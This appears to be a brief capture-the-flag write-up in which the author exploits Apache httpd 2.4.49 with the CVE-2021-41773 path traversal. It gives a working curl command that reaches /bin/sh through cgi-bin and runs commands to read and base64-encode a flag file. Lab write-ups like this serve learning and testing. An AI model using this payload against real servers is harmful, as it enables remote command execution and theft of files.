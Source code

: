 # 10 of clubs

> Solved by: Starry-Lord


    port 12380

This port was using Apache httpd 2.4.49 and I found a good research on the subject here:


https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013


I didn't need to get a shell. ls and cat commands were enough to extract the png:


    curl -vv 'http://172.17.15.117:12380/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh' -d 'A=|echo; cat ../secret/safe/flag.png|base64'



![](https://i.imgur.com/aYyIBok.png)


